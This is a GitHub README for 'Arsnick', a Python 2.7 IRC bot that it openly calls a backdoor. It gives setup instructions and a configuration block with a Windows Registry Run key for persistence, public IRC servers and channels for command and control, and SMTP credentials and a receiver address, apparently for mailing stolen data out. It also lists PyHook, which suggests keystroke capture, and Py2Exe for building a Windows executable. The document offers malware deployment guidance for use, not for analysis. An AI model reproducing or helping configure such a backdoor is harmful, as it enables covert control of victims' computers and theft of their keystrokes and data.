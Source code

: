 # Arsnick

Arsnick is a Python IRC Bot/Backdoor written in Python.

Some implementations and debugs are needed.

env :Python 2.7.5

# Configuration
You can configure it by looking at the #CONFIG section in the source code:

```
#CONFIG
#winrgky      = 'Windows Default Service' #Windows Registry Run Key 
ircs          = 'irc.tiscali.it'          #IRC Server
ircp          = 6667                      #IRC Port
ircc          = '#yourircchannel'         #IRC Channel
ircs_backup   = 'eris.us.ircnet.net'      #Backup IRC Server
ircp_backup   = 6667                      #Backup IRC Port
ircc_backup   = '#yourircchannel2'        #Backup IRC Channel
version       = '1.0.1'                   #Arsnick Version
username      = 'sender@mail.com'         #Sender Mail
password      = 'password'            	  #Sender Mail password
emailsender   = 'ssender@mail.com'        #Sender Mail Name
#emailsmtp    = 'smtp.mail.ru'            #SMTP Server
#emailsmtport = '465'                     #SMTP Port
emailreceiver = 'receiver@mail.com'       #Destination Mail
```

Once the confing has been done, run it and test it by sending commands using the dot for command triggering.
Ex.: .info


# Requirements
Use 'pip install' for missing libraries.
PyHook - https://sourceforge.net/projects/pyhook/files/pyhook/1.5.1/
 
# Compile
Py2Exe - http://www.py2exe.org/

